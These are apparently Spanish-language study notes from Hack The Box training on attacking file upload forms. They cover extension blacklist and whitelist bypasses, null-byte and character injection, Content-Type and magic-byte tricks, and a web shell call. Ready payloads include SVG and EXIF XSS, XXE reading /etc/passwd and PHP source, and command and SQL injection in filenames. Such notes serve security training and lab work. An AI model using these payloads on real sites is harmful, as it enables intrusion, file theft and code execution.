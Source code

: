 
http://caca.com/uploads/shell.php?cmd=id

## Blacklist filters

Cuando hay una validación de la extensión en el backend donde compara la extensión del archivo con una serie de extensiones de su blacklist

PASOS PARA BYPASSEARLO

1. Fuzzear extensiones y ver cuales están en la blacklist y cuales no
2. Probas a subir shells con las extensiones que te deja para ver si alguna ejecuta la shell

## Whitelist filters

Cuando hay una lista de extensiones que SI deja utilizar

1.Si comprueba que existe una extension de la whitelist en el archivo sin comprobar que es la última extension

 En estos casos usamos las extensiones dobles ,Ej:
 `ejemplo.jpg.php` -> en este caso bypasseamos el filtro porque la web 
 comprueba que el .jpg está 

2.Cuando comprueba la última extensión
 En este caso invertimos las extensiones para que bypasseemos la whitelist 
 pero eso puede no ser suficiente porque el que se ejecute el php o no       
 depende de como este configurado el servidor, esto lo sabremos mejor 
 si el servidor es un open source y podemos ver como trata las extensiones

### Character injection

Se puede jugar con php para que interprete de manera errónea las extensiones con carácteres:
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`
El `%00` sirve para versiones de PHP 5.X y anteriores , es el null byte y nos sirve para bypassear el filtro de forma que luego se guarde sin la extensión de detrás del null byte. Ej: `shell.php%00.jpg -> shell.php`

En servidores windows pasa lo mismo pero con `:`  Ej: `shell.php:.jpg -> shell.php`  no es con php si no con cualquier extensión

## Type filters

En este caso no validan la extensión como en los casos anteriores sino que validan el contenido del archivo , los casos más comunes son `Content-Type Header` y `File Content`

Esto se nota cuando los bypasses anteriores no nos funcionan y tampoco subir una shell que se llame shell.png ,si la extension png está autorizada y todavía nos da error puede ser porque la web compruebe también el contenido del archivo asi que simplemente cambia el content-type a lo que te deje

## MIME-Type

En este caso se comprueban los llamados Magic Bytes, por ejemplo si un archivo empieza con `GIF87a` entonces es porque es un GIF y esos bytes son los que comprueba la app para ver si tu archivo es adecaudo

## Concatenar con otras vulnerabilidades 

A veces la web está bien protegida ante los ataques vistos anteriormente pero puede ser que a través de una upload podamos agregar a la web una vulnerabilidad nueva 

### XSS

-Subir archivos html que exploten stored XSS

-Cuando una web además de guardar la foto la enseña sus metadatos:
```shell-session
bonack@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
También puede ser que si de la foto le quitamos los Magic Bytes la web interprete la imagen como texto y por ende que eneseñe el XSS sin necesidad de que se vean explicitamente los metadatos

-Si te deja meterle .svg como imagen podríamos explotar XSS cada vez que  se muestre la foto : 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

-Para mostrar /etc/passwd (hay que usar extensión .svg)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
-Para leer el código fuente:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

### DoS
## Command injection

si subimos un archivo que en el nombre tiene un comando y el nombre del archivo entero es ejecutado en un OS puede dar un command injection

`file$(whoami).jpg` 
``file`whoami`.jpg`` 
`file.jpg||whoami`

lo mismo se aplica con XSS y SQLi : `file';select+sleep(5);--.jpg`
